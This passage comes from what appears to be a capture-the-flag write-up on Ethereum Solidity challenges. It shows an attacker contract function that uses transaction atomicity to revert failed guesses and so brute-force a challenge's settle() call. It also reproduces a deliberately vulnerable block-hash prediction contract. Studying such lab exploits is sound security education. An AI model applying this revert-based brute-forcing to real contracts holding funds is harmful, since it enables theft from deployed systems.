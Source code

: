 Then instead of wasting lots of ETH by calling settle() randomly we make an attacker contract to exploit this:  

Building the attack contract that have this function:
```solidity
     function settleChallenge() public payable {
        challenge.settle();  // calls settle that resets guesser (if wrong/right guess)
        require(challenge.isComplete(), "Wrong answer");  //checks if we got it right, if not we just revert this function, resetting the state changes made in the above function call `challenge.settle()`
        emit challengeSolved(address(this).balance);
    }
```
> [!IMPORTANT]
> One of the main properties of the Ethereum transactions is that they are _atomic_.
> It is all or nothing, they can’t partially do what they are intended to do. We can sometimes exploit this to our advantange, scenarios where caller is bound to lose some value by calling fn like `settle()` if they have made wrong guess.
> Just reverting the whole function transaction can revert the loss of the caller/attacker and do brute-forcing to hack it even without losing any value.

### 2.6 Predict the block hash
```solidity
pragma solidity ^0.4.21;

contract PredictTheBlockHashChallenge {
    address guesser;
    bytes32 guess;
    uint256 settlementBlockNumber;

    function PredictTheBlockHashChallenge() public payable {
        require(msg.value == 1 ether);
    }

    function isComplete() public view returns (bool) {
        return address(this).balance == 0;
    }

    function lockInGuess(bytes32 hash) public payable {
        require(guesser == 0);
        require(msg.value == 1 ether);

        guesser = msg.sender;
        guess = hash;
        settlementBlockNumber = block.number + 1;
    }

    function settle() public {
        require(msg.sender == guesser);
        require(block.number > settlementBlockNumber);

        bytes32 answer = block.blockhash(settlementBlockNumber);

        guesser = 0;
        if (guess == answer) {
            msg.sender.transfer(2 ether);
        }
    }
}
```
